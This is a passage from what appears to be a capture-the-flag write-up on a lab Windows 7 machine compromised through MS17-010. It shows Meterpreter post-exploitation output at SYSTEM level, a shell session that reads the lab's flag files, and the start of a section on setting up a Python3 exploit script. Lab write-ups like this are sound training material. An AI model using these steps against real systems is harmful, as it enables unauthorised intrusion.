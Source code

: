 ```
meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM

```

I find it easier to work out of a real shell since I don’t use Meterpreter very often:

```

meterpreter > shell
Process 2220 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>

```

Now just grab the flags:

```

C:\Windows\system32>cd \users   

C:\Users>dir
 Volume in drive C has no label.
 Volume Serial Number is A0EF-1911

 Directory of C:\Users

21/07/2017  07:56    <DIR>          .
21/07/2017  07:56    <DIR>          ..
21/07/2017  07:56    <DIR>          Administrator
14/07/2017  14:45    <DIR>          haris
12/04/2011  08:51    <DIR>          Public
               0 File(s)              0 bytes
               5 Dir(s)  17,256,050,688 bytes free

C:\Users>type administrator\desktop\root.txt
ff548eb7************************
C:\Users>type haris\desktop\user.txt
4c546aea************************

```

### Python Script

In coming back to write this post, I wasn’t able to find a Python3 script to do MS17-010. This led to a bit of a tough spot, as my VM was configured to use [Impacket](https://github.com/SecureAuthCorp/impacket) with Python3.

#### Create Virtual Environment
